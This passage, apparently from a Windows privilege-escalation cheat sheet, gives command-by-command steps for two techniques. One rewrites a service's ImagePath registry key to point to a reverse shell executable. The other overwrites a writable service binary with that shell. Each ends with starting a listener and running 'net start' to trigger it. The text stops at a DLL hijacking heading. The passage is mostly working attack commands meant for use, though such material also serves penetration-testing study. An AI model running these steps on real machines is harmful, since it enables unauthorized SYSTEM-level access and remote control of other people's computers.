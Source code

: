     ```
    PS> Get-Acl HKLM:\System\CurrentControlSet\Services\service_name | Format-List
    ```
3.  Alternatively, we can use accesschk.exe to confirm this:

    ```
    > .\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\service_name
    ```
4.  Try to overwrite the ImagePath registry key to point to our reverse shell executable:

    ```
    > reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\Users\Public\reverse.exe /f
    ```
5.  Start a listener on our host (e.g Kali or Parrot), and then start the service to trigger the exploit:

    ```
    > net start regsvc
    ```

### **Insecure Service Executables**

If our user can modify the original service executable, we can easily replace it with our reverse shell executable. If you're going to use this in a real system, make a backup of the original executable.

1.  Enumerate services misconfiguration with winPEAS:

    ```
    > .\winPEASany.exe quiet servicesinfo
    ```
2.  If the service has an executable that appears to be writable by everyone.

    ```
    > .\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\service_name.exe"
    ```
3.  Create a backup of the original service executable:

    ```
    > copy "C:\Program Files\File Permissions Service\service_name.exe" C:\Temp
    ```
4.  Copy the reverse shell executable to overwrite the service executable:

    ```
    > copy /Y C:\Users\Public\reverse.exe "C:\Program Files\File Permissions Service\service_name.exe"
    ```
5.  Start a listener on our host (e.g Kali or Parrot), and then start the service to trigger the exploit:

    ```
    > net start filepermsvc
    ```

### **DLL Hijacking**
